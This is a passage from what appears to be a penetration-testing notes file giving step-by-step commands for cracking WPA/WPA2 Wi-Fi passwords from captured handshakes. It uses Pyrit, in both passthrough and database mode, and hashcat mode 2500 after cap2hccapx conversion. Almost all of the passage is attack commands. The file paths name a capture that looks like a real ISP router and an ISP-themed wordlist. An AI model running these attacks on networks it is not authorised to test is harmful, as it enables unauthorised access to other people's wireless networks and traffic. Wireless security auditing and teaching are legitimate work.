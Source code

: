 ```ShellSession
>> pyrit -r <original capture> -o <new capture> strip
```

- Now we can run the basic dicctionary attack (which is almost is the same speed as aircrack-ng):

```ShellSession
>>  pyrit -r <capture> -i <wordlist> -b <AP MAC> attack_passthrough

Where:
- -r: the capture file containing one or more WPA handshakes
- -i: the path to the dictionary file
- -b: optional BSSID of the target AP
- attack_passthrough:attempt to crack the WPA password using the wordlist
```

## Pyrit Database Mode

- With an initial Pyrit installation, its database will be empty. You can view the database status by running Pyrit with the eval parameter as shown below

```ShellSession
>> pyrit eval
```

- With our fresh installation, our database does not contain any ESSIDs or passwords. We can remedy this by first importing a wordlist into the database.

```ShellSession
>> pyrit -i <wordlist> import_passwords
```

- Before Pyrit can compute PMKs, we need to import an ESSID into the database using the create_essid parameter:

```ShellSession
>> pyrit -e <ESSID> create_essid
```

- compute the pairwise master keys for our access point.

```ShellSession
>> pyrit batch
```

 we can finally launch Pyrit in database mode and crack our WPA password.

```ShellSession
>> pyrit -r <capture>-b <AP MAC>attack_db
```

## Cracking WPA/WPA2 using hashcat

```ShellSession
>> ./cap2hccapx.bin /media/anas/DATA/pentest/payloads/TEdata3791A7-02.cap /media/anas/DATA/pentest/payloads/TEdata3791A7-02__.hccapx
```

```ShellSession
>> ./hashcat64.bin -m 2500 /media/anas/DATA/pentest/payloads/TEdata3791A7-02__.hccapx /media/anas/DATA/pentest/payloads/anas/eg_vodafone.com
```
